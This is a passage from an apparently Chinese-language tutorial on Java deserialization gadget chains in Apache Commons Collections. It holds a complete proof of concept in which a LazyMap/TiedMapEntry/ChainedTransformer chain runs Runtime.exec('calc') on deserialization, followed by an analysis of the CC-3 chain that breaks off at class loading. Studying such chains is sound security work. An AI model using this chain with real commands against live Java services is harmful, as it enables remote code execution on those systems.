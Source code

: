 ```bash
    public static void main(String[] args) throws Exception{
        Transformer[] Transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}),
                new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"})
        };
        ChainedTransformer cha = new ChainedTransformer(Transformers);
        HashMap<Object,Object> m1 = new HashMap<>();//设置一个空的 map 以便过 map.containsKey
        Map<Object,Object> Lazymap = LazyMap.decorate(m1,new ConstantTransformer(1));
        TiedMapEntry tiedMapEntry = new TiedMapEntry(Lazymap,"lky");//LazyMap.get() 这个方法的调用本来就没有参数，所以我们第二个参数为就随便写即可
        HashMap<Object,Object> m2 = new HashMap<>();
        m2.put(tiedMapEntry,"lituer");//触发 hash()
        //序列化过程结束
        Lazymap.remove("lky");
        //删除 key
        Field factoryFied = LazyMap.class.getDeclaredField("factory");
        factoryFied.setAccessible(true);
        factoryFied.set(Lazymap,cha);
        serialize(m2);
        unserialize("ser.bin");
    }
    public static void serialize(Object obj) throws IOException {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(obj);
    }
    public static Object unserialize(String Filename) throws IOException,ClassNotFoundException{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }
}
```

## CC-3 分析

CC-3 这条链子的思路是用了我们一开始学的 java 的类的动态加载，如果我们的链子总是依赖 ChainedTransformer 的 transform 方法，利用反射将多个 Invoketranfoemer 来进行的执行命令这样的思路，要是 Invoketranfoemer 类进入了黑名单，这样整条链子就不能用了。

为了摆脱这样的限制，CC-3 链子的这种思路就应运而生了。

### 类的动态加载

我们在写第一篇的时候也详细的分析了，这里也就是简单提一些对本链子理解有助的内容。我们把目光放到 ClassLoader 中，Java 在加载类的时候都会进行这些流程

```bash
ClassLoader ->SecureClassLoader->URLClassLoader->AppClassLoader
ClassLoader.loadClass - > ClassLoader.findClass - > ClassLoader.defineClass
```
